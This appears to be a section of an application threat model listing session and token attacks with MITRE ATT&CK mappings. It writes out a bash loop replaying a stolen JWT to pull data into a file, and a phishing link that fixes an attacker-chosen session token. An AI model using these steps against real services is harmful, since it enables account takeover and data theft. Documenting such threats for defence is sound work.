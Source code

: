 
## 7. Session & Token Attacks

### Attack 7.1: JWT Token Replay Attack
**Attack Vector:** Network  
**Complexity:** Low  
**Impact:** High  
**MITRE ATT&CK:** T1528 (Steal Application Access Token)

#### Description
Stolen JWT tokens remain valid until expiration, allowing prolonged unauthorized access.

#### Attack Steps
```bash
# Step 1: Intercept token (MITM, malware, XSS)
TOKEN="eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9..."

# Step 2: Decode and check expiration
echo $TOKEN | cut -d. -f2 | base64 -d | jq .exp
# Expiration: 1696204800 (valid for 1 hour)

# Step 3: Use token repeatedly until expiration
while true; do
  curl https://api.example.com/comics \
    -H "Authorization: Bearer $TOKEN" \
    >> stolen_data.json
  sleep 60
done
```

---

### Attack 7.2: Session Fixation
**Attack Vector:** Client-Side  
**Complexity:** Medium  
**Impact:** High  
**MITRE ATT&CK:** T1563 (Remote Service Session Hijacking)

#### Description
Force victim to use attacker-controlled session token.

#### Attack Steps
```html
<!-- Malicious link sent to victim -->
<a href="https://app.example.com/login?token=attacker_controlled_token">
  Click here for free credits!
</a>

<!-- Victim authenticates with pre-set token -->
<!-- Attacker now shares victim's session -->
```

---